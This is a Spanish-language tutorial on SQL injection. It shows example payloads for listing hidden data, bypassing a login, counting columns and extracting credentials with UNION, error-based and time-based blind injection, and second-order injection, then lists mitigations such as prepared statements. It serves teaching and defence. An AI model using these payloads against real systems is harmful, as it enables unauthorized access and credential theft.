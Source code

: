 # Ejemplos Prácticos de Inyección SQLi

## Listar contenido oculto
Una forma común de probar la [SQLi](SQLi) es modificar una URL para extraer datos que normalmente estarían ocultos.

```url
https://web-security-academy.net/filter?category=Pets%27+OR+1=1--
```
**Explicación:**
- `%27` es la codificación URL de `'` (comilla simple).
- `OR 1=1` siempre se evalúa como verdadero.
- `--` comenta el resto de la consulta SQL, evitando errores.

---

## Evadir Login con *Bypass*
Un atacante puede omitir la autenticación proporcionando entradas manipuladas en un formulario de inicio de sesión.

```txt
Login:

Username: administrator' --
Password: lo_que_sea
```
**Explicación:**
- `' --` cierra la consulta y comenta la parte de la contraseña, permitiendo acceso sin necesidad de conocerla.
- Funciona si la consulta es:
  ```sql
  SELECT * FROM usuarios WHERE usuario = 'administrator' AND clave = 'lo_que_sea';
  ```
  Pero se transforma en:
  ```sql
  SELECT * FROM usuarios WHERE usuario = 'administrator' -- ' AND clave = 'lo_que_sea';
  ```

---

## Obtener cantidad de columnas para ataques UNION
Se necesita conocer el número de columnas en la tabla antes de usar `UNION`.

```sql
ORDER BY 1 --
ORDER BY 2 --
ORDER BY 3 --  (Aumentar hasta que ocurra un error)
```
**Explicación:**
- `ORDER BY n` ayuda a determinar el número de columnas disponibles en la consulta.

---

## Encontrar columnas con tipos de datos útiles

```sql
UNION SELECT NULL, NULL, 'texto' --
```
**Explicación:**
- Se prueba con `NULL` hasta encontrar una columna donde se puede inyectar texto.

---

## Extraer usuarios y contraseñas

```sql
UNION SELECT username, password FROM users --
```
**Explicación:**
- Se usa `UNION` para extraer datos de la tabla `users`.

---

## SQLi basada en errores
Algunas bases de datos devuelven mensajes de error útiles que pueden revelar información.

```sql
' AND 1=CAST((SELECT clave FROM usuarios LIMIT 1) AS INT) --
```
**Explicación:**
- Intenta forzar un error al castear `clave` como entero.
- Si ocurre un error, significa que la columna existe.

---

## SQLi basada en tiempo (Blind SQL Injection)
Si no se obtiene respuesta directa, se pueden usar retrasos de tiempo.

```sql
' OR IF(1=1, SLEEP(5), 0) --
```
**Explicación:**
- Si la consulta es vulnerable, el servidor tardará 5 segundos en responder.

---

## SQLi de Segundo Orden
Se inyecta un payload en un lugar que no se ejecuta inmediatamente, sino en otro proceso posterior.

1️. Registro de usuario con payload malicioso:
```txt
Nombre: hacker'; INSERT INTO logs (mensaje) VALUES ('ataque exitoso'); --
```
2️. Cuando un administrador revisa los registros, se ejecuta la inyección.

**Explicación:**
- El ataque se ejecuta en otro punto de la aplicación, no inmediatamente.

---

## Cómo mitigar estos ataques
Usar **consultas preparadas** con parámetros seguros:
```sql
SELECT * FROM usuarios WHERE usuario = ? AND clave = ?;
```

**Escapar y validar entradas** del usuario.
**Restringir privilegios** de las cuentas de base de datos.
Implementar **WAFs** y herramientas de detección de ataques.

---

**Conclusión:** Estos ejemplos muestran lo peligroso que puede ser SQLi si no se implementan medidas de seguridad adecuadas.
